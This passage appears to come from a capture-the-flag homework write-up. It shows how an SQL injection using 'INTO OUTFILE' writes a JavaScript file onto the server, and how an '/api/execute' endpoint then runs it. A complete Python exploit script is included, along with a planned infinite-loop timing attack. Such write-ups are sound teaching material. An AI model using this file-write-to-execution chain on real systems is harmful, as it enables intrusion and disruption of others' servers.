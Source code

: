 Isn’t this what we used to solve the previous part? Let’s see what else SQLi is capable of…

![Untitled](</hw5b/Untitled 12.png>)

![Untitled](</hw5b/Untitled 13.png>)

Ayo that’s a really handy **arbitrary file write** exploit**.** If we can inject JS scripts into files of our own free will, we can use the `/api/execute` endpoint to make the server execute it.

After some debugging and even more googling, we used a Python (not JS sorry) script to automate the task:

```python
code = 'console.log("hi")'
hex_code = code.encode().hex()

fname = str(random.randrange(0, 10000000))
print(fname)

data = {"ok": "SELECT 0x" + hex_code +
        f" INTO OUTFILE '/var/lib/mysql-files/{fname}.js'"}
print(data)

response = requests.post('http://chal.firebird.sh:35020/api/ok',
                         cookies=cookies, headers=headers, data=json.dumps(data))
print(response.json())

data = {"fileName": f"{fname}.js"}
response = requests.post('http://chal.firebird.sh:35020/api/execute',
                         cookies=cookies, headers=headers, data=json.dumps(data))
print(response.json())
```

Upon running the script, the target code gets encoded into hex, becomes the constant column name of the SQL query, and the request was sent to the server. Consuming `/api/execute` allows us to execute our code under the same file name.

Now, how do we actually see the output? (Spoiler: we can’t. Try harder)

There’s something called a timing attack, in which we analyze the time taken, in this case, for the server to response. For example, let’s pass an infinite loop to the server:

```python
code = 'while (true) { console.log("hi"); }'
```

![Untitled](</hw5b/Untitled 14.png>)
